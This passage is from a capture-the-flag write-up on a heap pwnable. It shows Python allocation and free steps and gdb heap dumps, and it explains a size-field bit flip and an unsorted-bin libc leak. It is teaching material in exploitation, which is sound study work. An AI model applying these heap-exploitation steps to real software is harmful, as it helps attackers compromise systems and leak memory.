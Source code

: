 Since this pwnable shouts loud and clear that it's heap related, the `flip` function exists for a specific reason. We'll probably
have to (at least that's what I did) turn off the lsb of a heap chunk's `size` field in order to fool it into thinking that
the previous chunk is free. First order of business, leaks. Let's kick it off with the libc one.

```python
alloc(0x88, 0)
alloc(0x68, 1)
alloc(0x68, 2)	
alloc(0x88, 3)
# Prevent top chunk consolidation
alloc(0x68, 4)	
```

```
0x555555757100:	0x0000000000000000	0x0000000000000091 <-- chunk 0
0x555555757110:	0x0000000000000000	0x0000000000000000
0x555555757120:	0x0000000000000000	0x0000000000000000
0x555555757130:	0x0000000000000000	0x0000000000000000
0x555555757140:	0x0000000000000000	0x0000000000000000
0x555555757150:	0x0000000000000000	0x0000000000000000
0x555555757160:	0x0000000000000000	0x0000000000000000
0x555555757170:	0x0000000000000000	0x0000000000000000
0x555555757180:	0x0000000000000000	0x0000000000000000
0x555555757190:	0x0000000000000000	0x0000000000000071 <-- chunk 1
0x5555557571a0:	0x0000000000000000	0x0000000000000000
0x5555557571b0:	0x0000000000000000	0x0000000000000000
0x5555557571c0:	0x0000000000000000	0x0000000000000000
0x5555557571d0:	0x0000000000000000	0x0000000000000000
0x5555557571e0:	0x0000000000000000	0x0000000000000000
0x5555557571f0:	0x0000000000000000	0x0000000000000000
0x555555757200:	0x0000000000000000	0x0000000000000071 <-- chunk 2
0x555555757210:	0x0000000000000000	0x0000000000000000
0x555555757220:	0x0000000000000000	0x0000000000000000
0x555555757230:	0x0000000000000000	0x0000000000000000
0x555555757240:	0x0000000000000000	0x0000000000000000
0x555555757250:	0x0000000000000000	0x0000000000000000
0x555555757260:	0x0000000000000000	0x0000000000000000
0x555555757270:	0x0000000000000000	0x0000000000000091 <-- chunk 3
```

By freeing `chunk 0`, it will be placed in the unsorted bin list with its FD/BK fields pointing to `main arena` (libc that is). Now,
if we re-allocate the same chunk by making an allocation of the exact same size, we will get it back and since `add` asks for no
input during allocation we will be able to leak the `main arena` pointer.

```python
free(0)
```

```
0x555555757100:	0x0000000000000000	0x0000000000000091 <-- chunk 0
0x555555757110:	0x00007ffff7dd1b78	0x00007ffff7dd1b78
0x555555757120:	0x0000000000000000	0x0000000000000000
0x555555757130:	0x0000000000000000	0x0000000000000000
0x555555757140:	0x0000000000000000	0x0000000000000000
```
